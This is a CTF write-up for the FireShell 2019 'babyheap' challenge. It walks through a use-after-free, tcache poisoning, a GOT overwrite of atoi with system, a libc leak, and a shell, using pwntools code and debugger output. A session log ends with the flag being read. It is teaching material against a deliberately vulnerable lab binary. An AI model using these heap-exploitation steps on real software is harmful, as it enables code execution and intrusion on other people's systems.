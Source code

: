 +++
title = "FireShell 2019 - babyheap"
date = "2019-01-28 06:54:34"
categories = ["pwn", "writeup"]
+++
## downloads
- [binary](/assets/fireshell/babyheap/babyheap.zip)
- [libc.so.6](/assets/fireshell/babyheap/libc.so.6)
- [solve.py](/assets/fireshell/babyheap/solve.py)

## summary
1. `create`, `edit`, `show`, `delete`, and `fill`, each functions can only be used once.
2. UAF in `delete`, after chunk gets freed but didn't `NULL` the buf pointer.
3. `delete` will reset the `create` 'consumption', but you can't `delete` again after that.
4. Use tcache-poisoning to control heap return arbritrary address

## exploit
A brief helper function,
```python
def fill(buf):
    r.sendlineafter('> ', '1337')
    r.sendafter('Fill ', buf)

def create():
    r.sendlineafter('> ', '1')

def edit(buf):
    r.sendlineafter('> ', '2')
    r.sendafter('Content? ', buf)

def show():
    r.sendlineafter('> ', '3')
    r.recvuntil('Content: ')
    return r.recvuntil('\n----', drop=True)

def delete():
    r.sendlineafter('> ', '4')
```

trigger free to put tcache,
```python
create() # init tcache, heap, ...

# pwndbg> x/6gx 0x6020a0
# 0x6020a0:       0x0000000000000001      0x0000000000000000
#                   ^-- create used
# 0x6020b0:       0x0000000000000000      0x0000000000000000
# 0x6020c0:       0x0000000000000000      0x0000000002050250
#                                           ^-- buf

delete() # trigger UAF

# pwndbg> x/6gx 0x6020a0
# 0x6020a0:       0x0000000000000000      0x0000000000000000
#                   ^-- create reset
# 0x6020b0:       0x0000000000000000      0x0000000000000001
#                                           ^-- delete used
# 0x6020c0:       0x0000000000000000      0x0000000002050250

# pwndbg> tcachebins
# tcachebins
# 0x70 [  1]: 0x2050250 ◂— 0x0
```

use UAF to _poison_ tcache free list, put .bss + 0x20 to control function _'consumption'_
and buf pointer.
```python
edit(p64(elf.bss(0x20))) # 0x6020a0, function 'consumption' and buf pointer

# pwndbg> dq 0x2050250
# 0000000002050250     0000000000000000 0000000000000071
# 0000000002050260     00000000006020a0 0000000000000000
# 0000000002050270     0000000000000000 0000000000000000
# 0000000002050280     0000000000000000 0000000000000000

# pwndbg> tcachebins 
# tcachebins
# 0x70 [  1]: 0x2050260 —▸ 0x6020a0 ◂— 0x0
```

Second next `malloc(0x68)` request will create a chunk at `0x6020a0`,
and we could fill it with bunch of `NULL`s to control funtion _'consumption'_,
plus overwrite buf pointer to gain arbitrary read/write, in here I'll use GOT `atoi`
as it'll be easier to leak libc and overwrite it with `system`.
```python
create() # first request

# pwndbg> tcachebins 
# tcachebins
# 0x70 [  0]: 0x6020a0 ◂— 0x1

payload  = p64(0) # fill bunch of NULLs
payload += p64(0) # fill bunch of NULLs
payload += p64(0) # fill bunch of NULLs
payload += p64(0) # fill bunch of NULLs
payload += p64(0) # fill bunch of NULLs
payload += p64(elf.got['atoi']) # buf, get r/w, 0x602060
fill(payload) # second request

# pwndbg> tcachebins 
# tcachebins
# 0x70 [ -1]: 0x1

# pwndbg> dq 0x6020a0
# 00000000006020a0     0000000000000000 0000000000000000
# 00000000006020b0     0000000000000000 0000000000000000
# 00000000006020c0     0000000000000001 0000000000602060
#                       ^-- fill used    ^-- buf controlled
```

leak libc with `show` and overwrite `atoi` with `system`.
```python
libc.address = u64(show().ljust(8, '\x00')) - libc.symbols['atoi']

edit(p64(libc.symbols['system']))
```

Trigger `atoi('/bin/sh')` which is now `system('/bin/sh')`

```python
r.sendlineafter('> ', '/bin/sh')
```

Profit.

## flag
```
[+] Opening connection to 35.243.188.20 on port 2000: Done
[*] Switching to interactive mode
$ ls
babyheap
babyheap.sh
flag.txt
$ cat flag.txt
F#{W3lc0m3_t0_h34p_Expl01t4t10n!}$
[*] Interrupted
[*] Closed connection to 35.243.188.20 port 2000
```